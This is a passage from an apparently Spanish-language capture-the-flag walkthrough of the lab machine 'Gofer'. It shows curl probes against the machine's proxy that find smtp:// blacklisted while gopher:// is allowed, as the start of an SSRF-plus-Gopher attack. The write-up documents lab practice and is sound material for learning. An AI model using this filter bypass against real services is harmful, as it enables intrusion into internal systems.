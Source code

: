 En HackTricks empecé a probar cosas pero tiene una protección SSRF detrás.
```shell
$ curl -X POST 'http://proxy.gofer.htb/index.php?url=smtp://' && echo
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: smtp:// !</body></html>
```

## Abusing SSRF + Gopher Protocol
En HackTricks intentando saltarme la protección SSRF que tiene me encontré lo siguiente
https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery
![Write-up Image](images/Screenshot_8.png)
Casualmente se parece mucho al nombre de la máquina así que podemos suponer que van por aquí los tiros.

Además, `gopher://` no está en la lista de palabras no permitidas.
```shell
$ curl -X POST 'http://proxy.gofer.htb/index.php?url=smtp://' && echo
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: smtp:// !</body></html>
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/gofer/content/Gopherus]
└──╼ [★]$ curl -X POST 'http://proxy.gofer.htb/index.php?url=gopher://' && echo
<!-- Welcome to Gofer proxy -->
```
